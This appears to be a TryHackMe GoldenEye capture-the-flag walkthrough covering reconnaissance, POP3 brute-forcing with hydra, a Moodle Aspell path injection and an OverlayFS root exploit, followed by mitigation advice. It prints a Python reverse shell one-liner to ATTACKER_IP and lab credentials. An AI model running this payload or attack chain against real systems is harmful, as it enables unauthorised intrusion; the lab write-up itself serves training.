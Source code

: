 # GoldenEye – TryHackMe Walkthrough Report

**Prepared by:** Nishanth Antony  
**Date:** August 13, 2025  
**Difficulty:** Medium  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps

- **Objective:** Identify open network services and enumerate web content.
- **Nmap Scan:**
```bash
nmap -p- <ip_address>
```

- **Findings:**
- Port 80: HTTP (web app with hints in source code)
- Ports 55006/55007: POP3 (Dovecot)
- Port 25: SMTP
- **Focus:** Web application source + unidentified POP3 services.

---

## 2. Exploitation Process

### Step 1 – Web Source Inspection
- Found `terminal.js` with HTML-encoded credentials:
boris:InvincibleHack3r

text
- Hint indicated `/sev-home/` path and more users.

### Step 2 – POP3 Enumeration & Brute Force
- Discovered POP3 services on ports 55006 and 55007:
nmap -sV -p 55006,55007 <ip_address>

text
- Used `hydra` with a fast wordlist to brute force passwords for(use fasttrack.txt as password list for faster results):
- boris
- natalya
- dr_doak
- Extracted more credentials from emails (xenia, admin).

### Step 3 – Sensitive File Enumeration
- dr_doak’s profile → `secret.txt` referenced a JPG.
- Used `exiftool` to reveal Base64-encoded admin credentials.

### Step 4 – Moodle Reverse Shell
- Logged into Moodle as admin.
- Modified `Aspell` binary path to a Python reverse shell payload.
- Triggered via spellcheck in a blog post editor → got low-priv shell.

---

## 3. Proof of Concept (PoC)

- Successfully logged into Moodle admin with extracted credentials.
- Reverse shell obtained from `Aspell` misconfiguration.
- Example payload:
```python
python -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("ATTACKER_IP",443));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
subprocess.call(["/bin/sh","-i"])'
```
---

## 4. Privilege Escalation

- OS: Ubuntu 14.04.1 → vulnerable to **OverlayFS (EDB-37292)**.
- Modified exploit to use `cc` compiler instead of `gcc`.
- Executed exploit → **root shell obtained**.
- Retrieved `/root/root.txt` flag.

---

## 5. Mitigation Recommendations

- **Credential Security:** Never embed creds in web code or files. Use hashing/vaults.
- **POP3 Hardening:** Enforce strong passwords, enable lockouts, disable if unused.
- **File Permissions:** Restrict access to sensitive files (secret.txt, PGP keys).
- **Web App Hardening:** Validate system path inputs in apps like Moodle.
- **OS Patching:** Apply OverlayFS fixes or upgrade to supported Ubuntu.
- **Compiler Restrictions:** Remove compiler tools from production systems.

---

## 6. Lessons Learned

- Client-side code can leak critical credentials.
- Multiple low-severity issues can chain into full compromise.
- Legacy OS + known exploits = easy privilege escalation.

---

## 7. Skills Practiced

- **Recon:** Nmap, service enumeration
- **Brute-force:** Hydra for POP3
- **File Analysis:** exiftool metadata extraction
- **Web Abuse:** Moodle RCE via path injection
- **Kernel Exploit:** OverlayFS privilege escalation

